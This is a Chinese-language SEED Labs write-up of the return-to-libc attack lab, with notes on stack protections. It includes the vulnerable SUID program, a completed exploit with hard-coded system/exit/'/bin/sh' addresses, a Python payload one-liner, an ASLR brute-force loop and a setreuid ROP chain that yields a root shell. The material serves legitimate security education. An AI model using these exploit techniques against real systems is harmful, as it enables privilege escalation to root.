# Return-to-libc Attack Lab

学习目标是获得关于缓冲区攻击的有趣变种的第一手体验；此攻击可以绕过当前在主要Linux操作系统中实现的现有保护方案。利用缓冲区过度漏洞的常见方法是使用恶意shellcode将缓冲区过度流动，然后导致易受攻击的程序跳转到存储在堆栈中的shellcode。为防止这些类型的攻击，一些操作系统允许系统管理员使堆栈不可执行；因此，跳转到shellcode会导致程序失败。

然而，上述保护方案不是傻瓜；存在一个被称为返回libc攻击的缓冲区过度攻击的变体，这不需要可执行堆栈;它甚至没有使用shell代码。相反，它导致易受侦听的程序跳转到一些现有的代码，例如libc库中的`system()`函数，这些代码已被加载到存储器中。

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)、zmzzmqa

代码仓库：https://github.com/SKPrimin/HomeWork/tree/main/SEEDLabs/Return_to_libc

# Pre

1、网上搜索并且阅读Four different tricks to bypass StackShield and StackGuard protection这篇文章，描述这些现有保护机制的弱点。

> - 标准的 C 语言代码能使攻击者执行许多不同种类的攻击，包括： 标 准的基于栈的缓冲区溢出，使得返回地址被修改； 帧指针重写，使得 帧指针被修改； 局部变量或者函数参数被修改以改变程序的内部状态。
>
> - StackGuard 的保护机制只保护返回地址，不保护中间的变量和栈指针。有三个缺陷： 位于缓冲区后的局部变量并没 有被保护； 老的帧指针和函数参数会受到攻击者的控制； StackGuard 的检查只会在函数返回后检测到攻击，给攻击者一个代码窗口。 
> - StackShield:	只能阻止了基于标准堆栈的缓冲区溢出攻击，如果我们设法改变备份的返回地址的内容，保护就无效了
>
> - Microsoft’s /GS protection 如果金丝雀的随机性良好，这将有效地阻止攻击。另一方面，如果可以预测金丝雀，不仅可以实现攻击，而且 还可以使用标准的返回地址覆盖攻击。
>
> - 在标准编译的 C 代码中，当不使用-fomit-frame-pointer 时，相对于帧指针访问局部变量，如果我们控制它，我们可以控制调用者的局部变量和参数。


2、阅读下面这篇文章：
Bypassing non-executable-stack during exploitation using return-to-libc. 
http://www.infosecwriters.com/text_resources/pdf/return-to-libc.pdf

> 让栈变得不可执行看起来能有效抵御缓冲区溢出攻击，因为它消 除了攻击的一个重要条件。然而这个条件不是必需的。成功的缓冲区 溢出攻击需要运行恶意代码，但这些代码不一定非要在栈中，攻击者 可以借助内存中已有的代码进行攻击，比如 libc 库中的 `system()` 函数等。

3、阅读这个链接的第3章，解释怎样构造 return2libc 的访问链 http://www.phrack.org/issues.html?issue=58&id=4 

有两个方法可以构造访问链：

> 1. "esp lifting" method ：
>
>     假设 f1 和 f2 是库中两个函数的返回地址，漏洞函数返回到f1 ，而f1 返回到后记： addl   $LOCAL_VARS_SIZE,%esp   ret。前一条指令会让 栈指针指向 f2 返回地址存储的位置。而后一条指令会返回到f2。
>
> 2. frame faking
>
>     fake_ebp0 是第一帧的地址，fake_ebp1 是第二帧的地址，以此类推。 
>
>     首先： 漏洞函数的后记（即： leave;ret）把 fake_ebp0 放入％ebp 并 返回到 leaveret。
>
>     其次： 接下来的两条指令（leave;ret）把 fake_ebp1 放入％ebp 并返回 到f1 ，f1 看做是合适的参数。
>
>     f1 运行，然后返回。重复前两步，并把 f1 用 f2 ，f3...fn 代替。 


4、阅读这个链接 https://bbs.pediy.com/thread-224643.htm

> 文章主要讲了如何绕过 canary。题目的难点在于 canary。一般的 思路是先 leak 出 canary 的 cookie，然后在 payload 里，把原来的 canary 位置的 cookie 用我们 leak 出的正确的 cookie 写入，之后就是正常的 rop 。不过这题，有个 fork ，对 fork 而言，作用相当于自我复制，每 一次复制出来的程序，内存布局都是一样的，当然 canary 值也一样。
>
> 那我们就可以逐位爆破，如果程序挂了就说明这一位不对，如果程 序正常就可以接着跑下一位，直到跑出正确的 canary 。这是个 32 位 的程序，所以 canary 有 4 个字节，最低位一定是\x00，所以只需要爆 破三个字节即可。构造爆破 payload 格式为： `padding+canary+chr(i)`

5、认真观看，P4 Return-to-libc Attack Lecture
https://www.bilibili.com/video/BV1v4411S7mv
大概说下视频的内容。

> 为了抵御缓冲区溢出，操作系统采用了一种成为“不可执行栈” 的防御措施，它将程序的栈标记位不可执行，这样即使攻击者能够注 入恶意代码到栈中，代码也无法被执行。然而，这种防御措施能被另 一种无须在栈中运行代码的攻击方法绕过 。这种方法就叫做return-to-libc 攻击。
>
> 攻击者借助内存中已有的代码进行攻击。Linux 会将 libc 库加载 到内存中，其中的 system()函数就可以被攻击者利用。这个函数接收 一个字符串作为参数，将此字符串作为一个命令来执行。有了这个函 数，如果想要在缓冲区溢出后运行一个 shell，无须自己编写 shellcode， 只需要跳转到 system()函数，让它来运行指定的”/bin/sh”程序即可。

# Lab

## 指南：了解函数调用机制

### 1找出libc函数的地址

要使用任何libc函数的地址，您可以使用以下GDB命令（a.out是任意程序）：

```bash
$  gdb  a.out

(gdb)  b  main
(gdb)  r
(gdb)  p  system
$1  =  {<text  variable,  no  debug  info>}  0x9b4550  <system>
(gdb)  p  exit
$2  =  {<text  variable,  no  debug  info>}  0x9a9b70  <exit>
```

从上面的GDB命令中，我们可以确定`system()`函数的地址为0x9b4550，并且`exit()`函数的地址为0x9a9b70。 系统中的实际地址可能与这些数字不同。

### 2将shell字符串放在内存中

该实验室中的一个挑战是将字符串“/ bin / sh”放入内存中，并获得其地址。 这可以使用环境变量来实现。 执行C程序时，它会从执行它的shell中继承所有环境变量。 环境变量shell直接到/ bin / bash，是由其他程序需要的，因此我们介绍一个新的shell变量myshell并使其指向zsh

```
$  export  MYSHELL=/bin/sh
```

我们将使用此变量的地址作为`system() `调用的参数。 可以使用以下程序轻松找到存储器中此变量的位置：

```c
void  main(){
  char* shell = getenv("MYSHELL");
  if(shell)
  	printf("%x\n", (unsigned int)shell);
}
```

如果关闭地址随机化，则将您将打印出相同的地址。 但是，当您运行漏洞程序`retlib`时，环境变量的地址可能与运行上述程序的内容完全相同；在更改程序的名称时，这种地址甚至可以更改（文件名称中的字符数为差异）。 好消息是，shell 的地址将非常接近使用上述程序打印出的内容。 因此，您可能需要尝试几次成功。

### 3了解堆栈

要知道如何进行返回libc攻击，必须了解堆栈的工作原理。 我们用一个小的C程序来了解堆栈上函数调用的影响。

```c
/*foobar.c */
#include <stdio.h>
void foo(int x)
{
    printf("Hello  world:  %d\n", x);
}

int main()
{
    foo(1);
    return 0;
}
```

我们可以使用"`gcc -S foobar.c`"将此程序编译为汇编代码。 生成的文件 foobar.s 将如下所示：

```assembly
......
8  foo:
9                    pushl       %ebp
10                    movl         %esp,  %ebp
11                    subl         $8,  %esp
12                    movl         8(%ebp),  %eax
13                    movl         %eax,  4(%esp)
14                    movl         $.LC0,   (%esp)     :  string  "Hello  world:  %d\n"
15                    call         printf
16                    leave
17                    ret ......
21  main:
22                    leal         4(%esp),  %ecx
23                    andl         $-16,  %esp
24                    pushl       -4(%ecx)
25                    pushl       %ebp
26                    movl         %esp,  %ebp
```



```assembly
27                    pushl       %ecx
28                    subl         $4,  %esp
29                    movl         $1,   (%esp)
30                    call         foo
31                    movl         $0,  %eax
32                    addl         $4,  %esp
33                    popl         %ecx
34                    popl         %ebp
35                    leal         -4(%ecx),  %esp
36                    ret
```

#### 调用和输入foo()

在调用foo()时，让我们把注意力集中在堆栈上。我们可以忽略之前的堆栈。请注意，本解释中使用的是行号而不是指令地址。

- 第28-29行：这两个语句将值l，即foo()的参数，推入堆栈。此操作将%esp加4。这两个语句之后的堆栈如图1(a)所示。
- 第30行：`call foo`:该语句将紧跟在调用语句后面的下一条指令的地址推送到堆栈中(即返回地址)，然后跳转到foo()的代码。当前堆栈如图1(b)所示。
- 第9-10行：函数foo()的第一行将%ebp压入堆栈，以保存之前的帧指针。第二行让%ebp指向当前帧。中描述了当前堆栈图1 (c)。

- 第11行：`subl $8， %esp`:堆栈指针被修改为分配空间(8字节)给局部变量和传递给printf的两个参数。因为foo函数中没有局部变量，所以这8个字节只用于参数。见图1 (d)。

#### 离开foo ()

现在控件已经传递给函数foo()。让我们看看当函数返回时堆栈发生了什么。

- 第16行:leave:这条指令隐式地执行两条指令(在早期x86版本中它是一个宏，但后来被变成了一条指令):

```assembly
mov    %ebp,  %esp
pop    %ebp
```

第一个语句释放为函数分配的堆栈空间;第二个语句恢复前一个帧指针。当前堆栈如图1(e)所示。

- 第17行:ret:这条指令只是将返回地址从堆栈中弹出，然后跳转到返回地址。当前堆栈如图1(f)所示。

- 第32行:addl $4， %esp:通过释放更多为foo分配的内存来进一步恢复堆栈。可以清楚地看到，堆栈现在的状态与进入函数foo之前的状态完全相同(即第28行之前)。

## 实验室任务

### 初始设置

您可以使用预构建的Ubuntu虚拟机执行实验室任务。 Ubuntu和其他Linux发行版已经实施了几种安全机制，以使缓冲过度攻击困难。 为了简单的攻击，我们需要禁用它们。

> **地址空间随机化。** Ubuntu和其他几个基于Linux的系统使用地址空间进行了统筹，以随机化堆和堆栈的起始地址。 这使得猜测确切的解决困难; 猜测地址是缓冲区攻击的关键步骤之一。 在此实验室中，我们使用以下命令禁用这些功能：
>
> ```bash
> $ su root
> Password:   (enter  root  password)
> # sysctl -w kernel.randomize_va_space=0
> ```

> **堆栈防护方案。** GCC编译器实现了一种称为“堆栈保护”的安全机制，以防止缓冲区过度。 在存在这种保护的情况下，缓冲在流量上不起作用。 如果使用-fno-stack-protector switch编译程序，则可以禁用此保护。 例如，要使用堆叠防护禁用编译程序示例，您可以使用以下命令：
>
> ```bash
> $  gcc  -fno-stack-protector  example.c
> ```

> **不可执行的堆栈。** Ubuntu用于允许可执行的堆栈，但现在已更改：程序（和共享库）的二进制图像必须声明它们是否需要可执行堆栈，即，它们需要在程序标题中标记FI eld。 内核或动态链接器使用此标记来决定是否使该运行程序的堆栈可执行或不可执行。 此标记由最近的GCC版本自动完成，默认情况下，堆栈设置为不可执行。 要更改此，请在编译程序时使用以下命令：
>
> ```bash
> For  executable  stack:
> $  gcc -z execstack -o test test.c
> 
> For  non-executable  stack:
> $  gcc -z noexecstack -o test test.c
> ```
>
> 由于此实验室的目的是表明不可执行的堆栈保护不起作用，因此您应该始终使用此实验室中的“`-z noexecstack`”选项编译程序。

retlib.c文件

```c
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(FILE *badfile)
{
    char buffer[12];

    /* The following statement has a buffer overflow problem */
    fread(buffer, sizeof(char), 40, badfile);

    return 1;
}

int main(int argc, char **argv)
{
    FILE *badfile;

    badfile = fopen("badfile", "r");
    bof(badfile);

    printf("Returned Properly\n");

    fclose(badfile);
    return 1;
}
```

关闭 ASLR，打开栈不可执行关闭栈保护，编译 retlib.c程序并赋予 SUID 权限

```bash
su root
sysctl -w kernel.randomize_va_space=0
gcc retlib.c -o retlib -fno-stack-protector
chown root retlib
chmod 4755 retlib
```



### 任务1：利用漏洞

创建`badfile`。您可以使用下面的框架来创建一个。

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *)&buf[X] = some address; //  "/bin/sh"
  *(long *)&buf[Y] = some address; //  system()
  *(long *)&buf[Z] = some address; //  exit()

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
```

> 您需要找出这些地址的值，并找出存储这些地址的位置。如果错误地计算了位置，则攻击可能无法正常工作。
> 完成上述程序后，编译并运行它;这将生成"badefile"的内容。运行易受攻击的程序 retlib。如果您的漏洞被正确实现，当函数 bof 返回时，它将返回到 `system()` libc 函数，并执行 `system("/bin/sh")`。如果易受攻击的程序以 root 权限运行，则此时您可以获取`root shell`。

原理为，通过溢出修改返回地址使程序跳转到动态链接库中运行，动态链接库里有可以利用的函数例如system。只要让system函数运行参数/bin/sh就能获得shell。实现这个目标需要达成这三件事情。

1. 找到system函数地址
2. 找到字符串“/bin/sh”地址。
3. system函数参数应该放在栈的什么位置。

system函数地址可以通过gdb调试得到。字符串地址，可以放在缓冲区中，然后获得它的地址。或者放在环境变量，因为目标程序清理了环境变量，所以第二种不行。因为目标函数中有‘/bin/sh’字符串定义在bof函数中，可以通过查找该字符串地址得到。

#### 1. system&exit函数地址

gdb调试，直接`r`运行进程，使用`p func`命令得到system地址，同理可得到exit地址

```bash
gdb retlib
b  main
r
p system
p exit
```



system地址为`0xb7e5f430`，exit地址为 ： `0xb7e52fb0`

#### 2.字符串“/bin/sh”地址。

将字符串压入栈中

```BASH
export ATT="/bin/sh"
```

使用同一目录下名称**长度相同**的程序`env666`查看环境变量位置。

``` c
#include <stdio.h>
int main(void)
{
  printf("%x",getenv("ATT"));
}
```

编译该程序，要注意的是编译得到的二进制代码的文件名长度要和目标程序 `retlib` 一样长，否则在运行两个程序时，环境变量的地址将不同，就无法得到想要的结果。

```bash
gcc env666.c -o env666
./env666
```



得到地址为`bfffffd0`

如果长度不相同，可见得到的地址是不同的，显示是无法得到`root shell`。



#### 3.system函数参数应该放在栈的什么位置。

先创建badfile 并向其中写入“aaaa”标记 buf 前四个字节。

先在badfile中填满字符U，U的ascii码为55。

```bash
touch badfile

echo "aaaa" >badfile
或
echo $(python -c print"'a'*4") > badfile
```



gdb 调试 retlib，反汇编 main 函数

```bash
gdb retlib

disas main
```



可找到 bof 的返回地址为 `0x080484e2`。再对 bof 函数反汇编。



可找到 bof 函数的结束地址为 `0x080484b1`。

在此处设置断点，运行到断点处，用 x 命令查看内存内容。 

```
b*0x080484b1
r
x/50xw $esp
```



可算出 bof 函数返回地址距离 buf 首地址 $4\times6=24$ 字节。因此我们要在 buf[24]处写入`system()`函数的地址，在 buf[28]处写入` exit()`函数的地址，在 buf[32]处写入` system()`函数的参数“`/bin/sh`”的地址。

#### Badfile

经过以上分析，我们可以得到以下 exploit.c 程序：

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *)&buf[24] = 0xb7e5f430; //  system()
  *(long *)&buf[28] = 0xb7e52fb0; //  exit()
  *(long *)&buf[32] = 0xbfffffd0; //  "/bin/sh"

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
```

应该指出的是，`exit()`函数对于此攻击不是很必要; 但是，如果没有此功能，当`system()`返回时，程序可能会崩溃，导致怀疑。

```bash
$  gcc -o exploit exploit.c
$./exploit
$./retlib
//  create  the  badfile
//  launch  the  attack  by  running  the  vulnerable  program
#  <----  You’ve  got  a  root  shell!
```



如果你有丰富的python或其他脚本语言经验，也可以不使用给的模板，直接送进字符串

```bash
echo $(python -c "print 'U'*24 +'\x30\xf4\xe5\xb7'+'\xb0\x2f\xe5\xb7'+'\xd0\xff\xff\xbf'")>badfile
./retlib
```



> 攻击成功后，将retlib 的文件名更改为不同的名称，确保FILE名称的长度不同。 例如，您可以将其更改为newretlib。 重复攻击（不改变Badfile的内容）。 你的攻击是否成功了？

```bash
gcc retlib.c -o newretlib -fno-stack-protector
chown root newretlib
chmod 4755 newretlib
```



```bash
./newretlib
```


发现攻击失败。这是因为环境变量的地址和程序名的长度有关，当把retlib 改成 newretlib 时，由于文件名长度的改变从 env666 获得的环境变量的地址不在是“/bin/sh”字符串的地址。此时所有环境变量的内存地址移动了 6 个字节，因此该地址现在指向“h”开始的地方。 所以会显示 h 未找到。 

### 任务2：地址随机化

在这项任务中，让我们打开Ubuntu的地址随机化保护。 我们运行了任务中开发的相同攻击1.你能得到一个壳吗？ 如果没有，问题是什么？ 地址随机化如何使您的返回libc攻击困难？您可以使用以下说明打开地址随机化：

```bash
$  su  root
Password:   (enter  root  password)
#  /sbin/sysctl  -w  kernel.randomize_va_space=2
```



通过gdb查看几次运行各地址变化



| system地址 | 字符sh地址 | 差值     |
| ---------- | ---------- | -------- |
| 0xb75c9430 | 0xbfdd5fd0 | 880 CBA0 |
| 0xb75cc430 | 0xbf97efd0 | 83B 2BA0 |
| 0xb763c430 | 0xbfc93fd0 | 865 7BA0 |

可以看出system地址中间两个十六进制数在随机，而字符地址是中间三个随机，所以两者差值也在随机，概率极低。

尝试使用脚本强攻

```bash
sh -c "while [ 1 ]; do ./retlib; done;"
```



执行了一段时间后还没有攻击成功，这是因为开了地址随机化后要猜中地址是很困难的。但理论上还是能机会成功的

### 任务3：堆叠保护保护

在这项任务中，让我们打开Ubuntu的堆栈保护保护。 请记得关闭地址随机化保护。 我们运行了任务中开发的相同攻击1。你能得到一个shell吗？ 如果没有，问题是什么？ 堆叠保护保护如何使您的返回Libc攻击困难？  您可以使用以下说明使用堆栈防护防护进行编译程序。

```bash
$  su  root
Password   (enter  root  password)
#  gcc  -z  noexecstack    -o  retlib  retlib.c
#  chmod  4755  retlib
#  exit
```

打开栈保护

``` BASH
sudo gcc -z noexecstack -o retlib retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
```



无法更改返回地址和栈帧

### 补充任务–学号DLC

使用return-to-lib调用链。

- system(“echo A66666666”);
- setreuid(0,0);
- system(“/bin/sh”);
- exit(0)

#### 重编译

修改`retlib.c`12行，将40改为400或其它适量大小，否则内存不足。

首先关闭地址随机化，重新编译

```bash
sudo sysctl -w kernel.randomize_va_space=0
sudo gcc retlib.c -o retlib -fno-stack-protector
sudo chown root retlib
sudo chmod 4755 retlib
```



#### 导入变量

将字符串放入环境变量。

``` BASH
export MYID="echo A66666666"
export MYSHELL="/bin/sh"
```



按照之前方法找出程序运行时字符串位置。

system函数位置和exit函数位置已知，使用同样方法获得setreuid函数位置。

#### 找出变量地址

gdb 调试 retlib，查看函数的地址

```bash
gdb retlib
b  main
r
p system
p setreuid
p exit
```



```bash
gcc envaddr.c -o env662                               
./env662
```



至此五函数地址已找到：

- system `0xb7e5f430`
- setreuid `0xb7f07870`
- exit `0xb7e52fb0`
- echo A66666666 `bfffffc9`
- /bin/sh `bfffffbc`

#### 构建badfile

使用命令反汇编，肉眼寻找 pop-ret 或 pop-pop-ret

```bash
objdump -d retlib 
```



或者使用管道符快速找到可利用片段。

```bash
objdump -d retlib|grep -B 3 ret
```



我们使用`80485b7-80485b8-80485b9`作为载体

由 task1 我们知道，bof 函数的返回地址在 buf[24]，于是开始修改：

- buf[24]改成 system()函数的地址：0xb7e5f430 
- buf[28]改成 pop-ret 的地址：0x80485b8（因为 system()只有一个参数，所以只需要一个 pop 将栈指针抬一次） 
- buf[32]改成存放 system()的参数“echo A66666666”的环境变量的地址：bfffffc9
- buf[36]改成 setreuid()的地址：0xb7f07870 
- buf[40]改成 pop-pop-ret 的地址：0x80485b7（因为 setreuid()有两个参数，所以需要两个 pop 将栈指针抬两次） 
- buf[44]和 buf[48]都改成 setreuid()的参数 0 的地址：0x00000000 
- buf[52]改成 system()函数的地址：0xb7e5f430 
- buf[56]改成 pop-ret 的地址：0x80485b8 
- buf[60]改成存放 system()的参数“/bin/sh”的环境变量的地址： bfffffbc 
- buf[64]改成 exit()函数的地址：0xb7e52fb0

如果你看到的是这个界面，那么很明显是空间不够用，retlib.c第12行改为` fread(buffer, sizeof(char), 400, badfile);`或者其它适量大小



使用exploit2.c写入badfile

```
gcc exploit2.c -o exploit2
./exploit2
./retlib
```



攻击成功！